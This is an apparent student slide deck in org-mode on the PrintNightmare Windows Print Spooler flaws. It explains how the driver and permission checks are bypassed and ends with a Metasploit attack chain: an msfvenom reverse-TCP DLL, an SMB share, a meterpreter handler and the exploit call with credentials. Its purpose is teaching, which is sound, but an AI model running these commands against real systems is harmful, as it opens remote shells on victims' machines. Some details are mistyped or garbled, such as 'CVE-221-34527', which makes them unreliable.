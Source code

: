 :REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME:serif
#+REVEAL_INIT_OPTIONS: transition: 'concave', width:1200, height:800
#+REVEAL_TITLE_SLIDE: <h2 class="title">%t</h2><em>%s</em><br><br>%a<br>%d
#+reveal_extra_css: css/extra.css
#+OPTIONS: timestamp:nil toc:1 num:nil
:END:

#+title: PrintNightmare
#+author: Sudhanv Apte, 陳峰楷, 李光耀, Abdillahi Ahmed

* Introduction
- Windows has a service called Print Spooler
- Manages all local and network printing

** CVEs
- *CVE-2021-1675*, low class vulnerability, allowed privilege escalation
- Required direct access to the system thus labeled low risk
- Fixed by MS as of Jun 8, 2021
- *CVE-221-34527*, high risk, allowed remote code execution
- Rated 8.8 on the Common Vulnerabiltity Scoring System Scale
* Vulnerabiltity Analysis
- Two vulns are triggered by the PrintSpoolerService RPC method
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve1.png]]

  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve2.png]]

- *mimikatz* was first to implement the exploit with both CVEs

** The Vulnerability
- Use Process monitor to capture EXP when DLL is loaded
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/pm.png]]
- dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/yadd.png]]
    [[./assets/nspt/apd.png]]
** ValidateObjectAccess
- mimikatz will pass RpcBindingSetAuthInfoEx method with some params
- After execution, user sets username which is regarded as permission
- ValidateObjectAccess result is 0 for user and 1 for admin
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/rpcbind.png]]
- To bypass the ValidateObjectAccess, if the "APD INSTALL WARNED DRIVER" is set to 1
- The result of _bittest method is 1, as a result ValidateObjectAccess is bypassed
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/bittest.png]]
** ValidateDriverInfo
- This part checks if the driver name is valid
- Execution flow is as follows:
  - Check if it is a local file
  - Check init key
  - Verify legitimacy of the driver file
    [[./assets/nspt/vdi.png]]
- When dwFileCopyFlags contains APD INSTALL WARNED DRIVER, the result is 0x8000 and value is 0
- This skips further verification by driver

    #+ATTR_HTML: :width 60%
  [[./assets/nspt/dwfile.png]]
** Get file handle
- Value of v13 is obtained by inverting lower 8 bits of dwFileCopyFlags
- Shifting it 4 bits to right and performing AND with 1
- v13 determines 5th param of the CreateInternalDriverFileArray
  [[./assets/nspt/spl.png]]
- After calculation, when value of lower 8 bits of dwFileCopyFlags is 0x1X, a5 can be set to 0
- When a5 is 0, validity check of the driver can be avoided
  [[./assets/nspt/a5.png]]
#+REVEAL: split
- Open file via CreateFile method, get 3 file handles
- Save them in space requested by DllAllocSplMem method for later file update use
  [[./assets/nspt/dll.png]]

** Copy files to driver space
- pConfigFile, pDataFile and pDriverPath save their respective file paths
- When moving files of the above members, the following operations are required:
  - Check file info of the file handle
  - Copy file to *"C:\Windows\System32\spool\drivers\x64\3\new"*
  - Using MoveNewDriverRelatedFiles, move files and realize the update file
    #+ATTR_HTML: :width 70%
    [[./assets/nspt/copy.png]]
** Update Driver Files
- Load the new config file
- When loaded it will run the driver's DLL
- Our DLL will be executed with highest privilege
  [[./assets/nspt/update.png]]

* Implementation
- Environment:
  - Windows 10 1607
  - Kali 2022.3
  - Python 3.10.5

- Git repos used:
  - https://github.com/tryhackme/CVE-2021-1675
  - https://github.com/tryhackme/impacket
  - https://github.com/JohnHammond/CVE-2021-34527

- python requires impacket which can be installed through github

** Setup
- Setup exploit DLL
  #+begin_src
msfvenom -p /reverse_tcp_path LHOST=[YOUR_IP] LPORT=4545 -f dll -o spoolerevil.dll
  #+end_src
- Execute DLL
  #+begin_src
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
set LPORT 4545
run -j
  #+end_src
- DLL Injection
    #+begin_src
python CVE-2021-1675.py username:password@<targetName or address> Path to DLL

session -i 1
    #+end_src

* Demo
* Conclusion
- Spooler vuln was first used in Stuxnet attack 10 years ago
- MSs incomplete patch of the CVEs made windows users vulnerable to attacks
- MS has taken step to ameliorate the situation but 34527 is still unsolved
